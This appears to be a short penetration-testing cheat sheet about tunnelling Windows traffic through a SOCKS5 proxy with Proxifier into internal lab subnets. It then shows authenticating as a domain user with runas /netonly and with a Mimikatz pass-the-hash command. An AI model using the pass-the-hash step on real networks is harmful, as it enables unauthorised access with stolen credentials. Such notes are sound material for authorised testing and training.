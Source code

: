 # Proxifier (Windows)



## Introduction

We can tunnel traffic from our Windows machine using proxifier.

{% embed url="https://www.proxifier.com/" %}



## Configuration

It's import to enable the correct target hosts when setting up our proxy rules.

Click **Add** to create a new rule and use the following:

* Name:  Tools
* Applications:  Any
* Target hosts:  10.10.120.0/24;10.10.122.0/23
* Target ports:  Any
* Action:  Proxy SOCKS5 10.10.5.50



## Authenticating over Proxy

An application needs to be launched as a user from the target domain.  This can be achieved using `runas /netonly` or Mimikatz.

#### runas

```powershell
PS C:\Users\scrub> runas /netonly /user:ROTTA\cfoxy mmc.exe
```

MMC.exe is the executable file for Microsoft Management Console (MMC), a tool that allows users to configure and monitor their Microsoft Windows system

**Mimikatz:**

```sh
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:ROTTA /user:cfoxy /ntlm:<cfoxy-hash> /run:mmc.exe
```
